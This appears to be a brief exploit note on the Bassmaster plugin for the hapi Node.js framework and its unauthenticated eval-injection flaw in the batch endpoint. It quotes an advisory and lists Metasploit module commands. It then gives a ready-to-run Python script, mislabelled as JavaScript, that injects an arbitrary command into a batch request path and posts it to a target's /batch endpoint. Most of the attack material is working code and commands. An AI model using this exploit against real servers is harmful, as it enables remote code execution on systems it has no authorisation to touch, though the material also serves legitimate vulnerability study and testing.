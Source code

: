 #  Bassmaster NodeJS Arbitrary JavaScript Injection Vulnerability 
- https://www.rapid7.com/db/modules/exploit/multi/http/bassmaster_js_injection/

Bassmaster Batch Arbitrary JavaScript Injection Remote Code Execution
Eval injection vulnerability in the internals.batch function in lib/batch.js in the bassmaster plugin prior to 1.5.2 for the hapi server framework for Node.js allows remote malicious users to execute arbitrary Javascript code via unspecified vectors.
This module exploits an un-authenticated code injection vulnerability in the bassmaster nodejs plugin for hapi. The vulnerability is within the batch endpoint and allows an attacker to dynamically execute JavaScript code on the server side using an eval. Note that the code uses a '\x2f' character so that we hit the match on the regex.
``` shell
msf > use exploit/multi/http/bassmaster_js_injection
      msf exploit(bassmaster_js_injection) > show targets
            ...targets...
      msf exploit(bassmaster_js_injection) > set TARGET <target-id>
      msf exploit(bassmaster_js_injection) > show options
            ...show and set options...
      msf exploit(bassmaster_js_injection) > exploit
```

## eval()
- https://www.w3schools.com/jsref/jsref_eval.asp
```javascript
let x = 10;
let y = 20;
let text = "x * y";
let result = eval(text);
```

## exploit 
```javascript
import requests,sys

if len(sys.argv) != 3:
    print "(+) usage: %s <target> <cmd_injection>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = sys.argv[2]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'
request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % cmd

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```
